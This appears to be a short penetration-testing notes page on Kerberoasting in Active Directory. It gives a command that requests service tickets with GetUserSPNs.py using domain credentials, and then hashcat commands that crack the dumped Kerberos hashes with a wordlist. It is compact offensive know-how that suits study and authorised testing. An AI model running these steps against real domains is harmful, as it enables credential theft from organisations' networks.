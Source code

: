 # Kerberoasting Overview

## Resources

* [https://medium.com/@Shorty420/kerberoasting-9108477279cc](https://medium.com/@Shorty420/kerberoasting-9108477279cc)

![](../../../.gitbook/assets/untitled%20%281%29.png)

## Kerberoasting Attack Overview

### Step 1: Get SPNs \(Service Principal Name\), Dump Hash

```bash
python getuserspns.py <DOMAIN/username:password> -dc-ip <ip of DC> -request
```

### Step 2: Crack the Hash

```bash
hashcat --help | grep Kerberos
hashcat -m 13100 kerberoasthash.txt rockyou.txt
```

